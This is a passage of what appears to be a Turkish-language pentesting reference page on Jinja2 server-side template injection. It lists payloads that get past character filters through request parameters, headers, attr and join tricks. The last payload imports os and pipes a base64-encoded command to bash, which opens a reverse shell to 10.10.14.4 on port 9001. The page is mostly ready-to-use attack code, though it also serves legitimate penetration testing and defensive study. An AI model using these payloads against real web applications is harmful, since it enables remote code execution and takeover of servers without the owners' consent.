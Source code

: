 {{#ref}}
../../generic-methodologies-and-resources/python/bypass-python-sandboxes/
{{#endref}}

### Filtre atlamaları

#### Yaygın atlamalar

Bu atlamalar, **bazı karakterler** kullanmadan **nesnelerin** **niteliklerine** **erişmemizi** sağlayacaktır.\
Önceki örneklerde bu atlamalardan bazılarını zaten gördük, ancak burada özetleyelim:
```bash
# Without quotes, _, [, ]
## Basic ones
request.__class__
request["__class__"]
request['\x5f\x5fclass\x5f\x5f']
request|attr("__class__")
request|attr(["_"*2, "class", "_"*2]|join) # Join trick

## Using request object options
request|attr(request.headers.c) #Send a header like "c: __class__" (any trick using get params can be used with headers also)
request|attr(request.args.c) #Send a param like "?c=__class__
request|attr(request.query_string[2:16].decode() #Send a param like "?c=__class__
request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join) # Join list to string
http://localhost:5000/?c={{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_ #Formatting the string from get params

## Lists without "[" and "]"
http://localhost:5000/?c={{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_

# Using with

{% raw %}
{% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzkwMDEgMD4mMQ== | base64 -d | bash")["read"]() %} a {% endwith %}
{% endraw %}






```
- [**Global bir nesneye erişim için daha fazla seçenek için buraya dönün**](jinja2-ssti.md#accessing-global-objects)
- [**Nesne sınıfına erişim için daha fazla seçenek için buraya dönün**](jinja2-ssti.md#recovering-less-than-class-object-greater-than)
- [**Nesne sınıfı olmadan RCE elde etmek için bunu okuyun**](jinja2-ssti.md#jinja-injection-without-less-than-class-object-greater-than)
